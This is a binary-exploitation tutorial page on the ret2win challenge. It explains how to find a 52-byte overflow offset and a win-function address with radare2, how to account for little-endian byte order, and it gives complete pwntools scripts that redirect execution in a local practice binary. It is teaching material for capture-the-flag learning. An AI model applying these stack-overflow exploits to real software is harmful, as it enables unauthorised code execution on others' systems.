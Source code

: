 ```yaml
---
description: The most basic binexp challenge
---
```


# ret2win

A **ret2win** is simply a binary where there is a `win()` function (or equivalent); once you successfully redirect execution there, you complete the challenge.

To carry this out, we have to leverage what we learnt in the **introduction**, but in a _predictable manner_ - we have to overwrite EIP, but to a specific value of our choice.

To do this, what do we need to know? Well, a couple things:

* The padding _until_ we begin to overwrite the return pointer (EIP)
* What value we want to overwrite EIP to

{% hint style="warning" %}
When I say "overwrite EIP", I mean overwrite the saved return pointer that gets popped into EIP. The EIP register is not located on the stack, so it is not overwritten directly.
{% endhint %}

{% file src="../../.gitbook/assets/ret2win.zip" %}
ret2win
{% endfile %}

### Finding the Padding

This can be found using simple trial and error; if we send a variable numbers of characters, we can use the `Segmentation Fault` message, in combination with radare2, to tell when we overwrote EIP. There is a better way to do it than simple brute force (we'll cover this in the next post), but it'll do for now.

{% hint style="info" %}
You may get a segmentation fault for reasons other than overwriting EIP; use a debugger to make sure the padding is correct.
{% endhint %}

We get an offset of 52 bytes.

### Finding the Address

Now we need to find the address of the `flag()` function in the binary. This is simple.

```
$ r2 -d -A vuln
$ afl
[...]
0x080491c3    1 43           sym.flag
[...]
```

{% hint style="info" %}
`afl` stands for **A**nalyse **F**unctions **L**ist
{% endhint %}

The `flag()` function is at `0x080491c3`.

### Using the Information

The final piece of the puzzle is to work out how we can send the address we want. If you think back to the introduction, the `A`s that we sent became `0x41` - which is the ASCII code of `A`. So the solution is simple - let's just find the characters with ascii codes `0x08`, `0x04`, `0x91` and `0xc3`.

This is a lot simpler than you might think, because we can specify them in python as hex:

```python
address = '\x08\x04\x91\xc3'
```

And that makes it much easier.

### Putting it Together

Now we know the padding and the value, let's exploit the binary! We can use [`pwntools`](https://github.com/Gallopsled/pwntools) to interface with the binary (check out the [pwntools posts](../../misc/pwntools/) for a more in-depth look).

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

p.clean()                # Receive all the text

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

If you run this, there is one small problem: it won't work. Why? Let's check with a debugger. We'll put in a `pause()` to give us time to attach `radare2` onto the process.

```python
from pwn import *

p = process('./vuln')

payload = b'A' * 52
payload += '\x08\x04\x91\xc3'

log.info(p.clean())

pause()        # add this in

p.sendline(payload)

log.info(p.clean())
```

Now let's run the script with `python3 exploit.py` and then open up a new terminal window.

```
r2 -d -A $(pidof vuln)
```

By providing the PID of the process, radare2 hooks onto it. Let's break at the return of `unsafe()` and read the value of the return pointer.

```
[0x08049172]> db 0x080491aa
[0x08049172]> dc

<< press any button on the exploit terminal window >>

hit breakpoint at: 80491aa
[0x080491aa]> pxw @ esp
0xffdb0f7c  0xc3910408 [...]
[...]
```

`0xc3910408` - look familiar? It's the address we were trying to send over, except the bytes have been reversed, and the reason for this reversal is [endianness](https://en.wikipedia.org/wiki/Endianness). Big-endian systems store the **most significant byte** (the byte with the largest value) at the smallest memory address, and this is how we sent them. Little-endian does the opposite ([for a reason](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format)), and most binaries you will come across are little-endian. As far as we're concerned, the byte are stored in _reverse order_ in little-endian executables.

### Finding the Endianness

`radare2` comes with a nice tool called `rabin2` for binary analysis:

```
$ rabin2 -I vuln
[...]
endian   little
[...]
```

So our binary is **little-endian**.

### Accounting for Endianness

The fix is simple - reverse the address (you can also remove the `pause()`)

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

If you run this now, it will work:

```
$ python3 tutorial.py 
[+] Starting local process './vuln': pid 2290
[*] Overflow me
[*] Exploited!!!!!
```

And wham, you've called the `flag()` function! Congrats!

### Pwntools and Endianness

Unsurprisingly, you're not the first person to have thought "could they possibly make endianness simpler" - luckily, pwntools has a built-in `p32()` function ready for use!

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

becomes

```python
payload += p32(0x080491c3)
```

Much simpler, right?

The only caveat is that it returns `bytes` rather than a string, so you have to make the padding a byte string:

```python
payload = b'A' * 52        # Notice the "b"
```

Otherwise you will get a

```
TypeError: can only concatenate str (not "bytes") to str
```

### Final Exploit

```python
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = b'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
```
